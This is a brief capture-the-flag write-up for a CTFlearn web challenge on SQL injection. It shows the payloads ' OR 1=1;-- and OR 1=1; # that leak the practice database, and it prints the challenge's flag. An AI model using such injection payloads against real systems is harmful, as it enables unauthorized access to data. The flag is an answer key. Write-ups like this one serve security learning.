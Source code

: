# Basic Injection
Category: Web

## Description

> See if you can leak the whole database using what you know about SQL Injections. [link](https://web.ctflearn.com/web4/).  

# Solution

Normally, we'll input the standard `' OR 1=1;--`. This time however, this does not give is the answer, probably because we have different SQL engine. Chenging our input to `OR 1=1; #` leaks the database and gives us the answer
```
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs} 
```